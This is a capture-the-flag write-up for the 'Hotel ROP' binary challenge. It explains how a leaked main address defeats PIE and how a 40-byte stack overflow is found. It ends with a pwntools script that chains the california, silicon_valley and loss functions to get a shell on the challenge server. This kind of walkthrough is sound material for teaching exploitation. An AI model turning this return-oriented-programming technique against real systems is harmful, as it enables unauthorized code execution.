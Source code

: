 # Hotel ROP

In this challenge we are given a binary, `hotel_rop` and a link to a server running this binary.

Running the file, we get the following output:
```
$ ./hotel_rop
Welcome to Hotel ROP, on main street 0x5617508ca36d
You come here often?
a
I think you should come here more often.
```

Running this multiple times, the number after "main street" keeps changing every time, but always ends with `36d`.
As it always starts with `0x55` or `0x56`, I can assume that this is an address in the program itself and not the stack or heap or libc.

Opening `hotel_rop` in Radare2 and seeking to `main`, I find immediately that `main` is at an offset of `0x136d`, so this address should be our `main` in the current program.

Checking the security of the binary, I saw that it is a PIE, but without a stack canary. Thus, it's a candidate for buffer overflows and ROP.

To find the offset for overflowing the buffer I just kept running `perl -e 'print "\x41"x40;'` with different multipliers until I got a segmentation fault. The correct offset is 40 bytes.

Looking at `california` (offset `0x11dc`) and `silicon_valley` (offset `0x1283`) in Radare2, I notice that they write something to various offsets of some memory address called `win_land`. Looking more closely, `california` writes `/bin` to `win_land`, and `silicon_valley` writes `/sh`. As there is also a counter called `len` used for offsets, calling `california` then `silicon_valley` writes `/bin/sh` to `win_land`.

Well, that was easy.

Looking at the disassembly of the function `loss` in Radare2, I see that towards the end it runs `system(win_land)` if you pass a few complicated tests on the arguments to the function. However, since we can jump straight to this address (at offset `0x11c3`), we can call this directly without the need to provide arguments to `loss`.

So, the plan is: get the base address of `main` from the first line, calculate the offsets of `california`, `silicon_valley` and `loss`, and use this address to make a rop chain running those in order. Here is the code:

```python
from pwn import *

p = remote('dctf1-chall-hotel-rop.westeurope.azurecontainer.io', 7480)

main_offset = 0x136d
california_offset = 0x11dc
silicon_valley_offset = 0x1283
system_offset = 0x11c3

p.recvuntil("street")
base = int(p.recvline().strip(), 16) - main_offset

california = p64(base + california_offset)
silicon_valley = p64(base + silicon_valley_offset)
system = p64(base + system_offset)

p.recvuntil("often?\n")
p.sendline((b'\x00'*40) + california + silicon_valley + system)
p.interactive()
```

This pops a shell, and the flag is at `flag.txt`.
